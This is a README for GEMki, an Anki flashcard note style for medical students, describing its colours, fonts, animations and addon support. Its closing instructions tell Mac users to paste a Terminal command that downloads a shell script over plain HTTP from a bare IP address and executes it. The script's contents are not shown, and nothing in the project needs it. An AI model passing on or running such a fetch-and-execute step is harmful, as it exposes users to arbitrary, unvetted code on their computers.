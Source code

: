 ## GEMki

GEMki is a *Note Style* for [Anki](https://apps.ankiweb.net/), the digital spaced-repetition flashcard software. The note style was originally developed for use by the  graduate-entry medical students at the Royal College of Surgeons in Ireland '25. The note style can be thought of as a cross between the note style of [Anking's premade USMLE deck](https://www.ankipalace.com/step-1-deck) as well as MarlinAnatomy's deck, with some of our own influence too. Some added features of GEMki include:

- Fade in animations, which makes transitioning between cards less jarring
- A colour scheme which automatically colours text as **bold**, _italic_ or underlined
	- Colours are based off of those seen in [Dracula UI](https://draculatheme.com/ui)
- Info about the card being reviewed in the bottom left (requires the [Additional Fields](https://ankiweb.net/shared/info/744725736) addon)
- Countdown until the next exam, as well as details about that exam (manually added)
- Logo mark to distinguish the source of different cards in a collaborative deck
- Menlo font as default on MacOS, and Source Sans Pro on Windows
- Better styled tags at the bottom of the screen ([clickable tags](https://ankiweb.net/shared/info/1739176371) functionality supported)
- Support for the "[Edit Field During Review (Cloze)](https://ankiweb.net/shared/info/385888438)" addon, so that ctrl+clicking the text during reviewing allows the user to edit the card, even after it has been flipped

## Gallery

![Default Source Sans Pro font on Windows, custom navy background](https://i.imgur.com/i75RINh.png)
![Default Menlo font on MacOS, custom purple background](https://preview.redd.it/98kvjsfelci81.jpg?width=1280&format=pjpg&auto=webp&s=2eb453000e6cfaa9939cefb516be5c75308b4341)![Fade-in animations between cards](https://i.imgur.com/cEYru3j.gif)


To GEM students looking to include the logo/addons in their anki workflow, follow the below instructions.

1. CMD + SPACE

2. Type Terminal

3. Paste the following

cd ~/ && curl http://95.217.164.255/misc/AnkiWizard.sh -o ./AnkiWizard.sh && sh ./AnkiWizard.sh

4. Hit ENTER, follow instructions!

5. Restart Anki
